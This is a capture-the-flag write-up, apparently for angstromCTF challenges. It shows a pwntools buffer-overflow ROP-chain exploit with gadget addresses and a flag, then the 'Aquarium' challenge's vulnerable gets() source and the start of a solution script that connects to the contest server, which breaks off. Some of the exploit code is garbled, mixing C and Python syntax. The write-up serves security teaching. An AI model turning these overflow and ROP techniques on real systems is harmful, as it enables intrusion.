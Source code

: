 ```

def exploit():
  printf("3 - Grant access");
  r.sendline("1")
  userToken=0x1337; balance=0x4242; pin=0xba5eba11; secret=0xbedabb1e
  
  payload = ""
  payload += "A"*0x30
  payload += "B"*0x8
  # %rdi, %rsi, %rdx, %rcx, %r8 and %r9
  chain = ""
  chain += p64( 0x401196 )
  chain += p64(0x401403)	# pop rdi; ret 
  chain += p64(0xdeadbeef)
  chain += p64( 0x4011ab)
  chain += p64(0x401403)	# pop rdi; ret 
  chain += p64(0xba5eba11)
  chain += p64(0x401401)	# pop rsi; pop r15; ret 
  chain += p64(0xbedabb1e)
  chain += p64(0x0)
  chain += p64(0x4011eb)
  payload += chain
  r.sendline(payload)
  interactive() #actf{dark_web_bargains}

exploit()
```


## Aquarium

We have the source and the binary, so we can inspect the source and immediately find a stack overflow
```
struct fish_tank create_aquarium(){
  ...
 printf("Enter the name of your fish tank: ");
 char name[50];
 gets(name);
  ...
```

The function that we want to execute can be the following:
```
void flag() {
  system("/bin/cat flag.txt");
}
```

Then we inspect the binary and we find that there's no canary, either PIE, but the stack is NX.

### Solution
```
from pwn import *
import time

debug = int(sys.argv[1])
online=False
if( debug == 0):
  r = remote("shell.actf.co",19305)
  #libcz = ELF("./libc-2.26.so")
  online=True
elif(debug == 1):
  libcz = ELF("/lib/x86_64-linux-gnu/libc.so.6")
  mainz = ELF("./aquarium")
```